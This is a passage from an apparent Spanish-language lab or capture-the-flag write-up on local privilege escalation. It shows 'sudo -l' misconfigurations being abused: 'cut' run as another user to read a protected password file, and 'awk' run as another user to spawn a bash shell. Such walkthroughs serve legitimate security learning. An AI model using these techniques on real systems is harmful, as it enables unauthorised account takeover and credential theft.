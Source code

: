 Veremos que somo dicho usuario.

## Escalate user chocolatito

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for gladys on afd32de0f5cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User gladys may run the following commands on afd32de0f5cd:
    (chocolatito) NOPASSWD: /usr/bin/cut
```

Veremos que podemos ejecutar el binario `cut` como el usuario `chocolatito`, por lo que haremos lo siguiente:

```shell
cd /opt
sudo -u chocolatito cut -d "" -f1 chocolatitocontraseña.txt
```

Veremos que en `/opt` hay un archivo que no podemos leer, pero con ese comando podremos leerlo y veremos lo siguiente:

Info:

```
chocolatitopassword
```

Por lo que vemos obtenemos la contraseña de dicho usuario, por lo que haremos lo siguiente:

```shell
su chocolatito
```

Y metemos como contraseña `chocolatitopassword`, echo esto seremos dicho usuario.

## Escalate user theboss

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for gladys on afd32de0f5cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User gladys may run the following commands on afd32de0f5cd:
    (theboss) NOPASSWD: /usr/bin/awk
```

Vemos que podemos ejecutar el binario `awk` como el usuario `theboss` por lo que haremos lo siguiente:

```shell
sudo -u theboss awk 'BEGIN {system("/bin/bash")}'
```
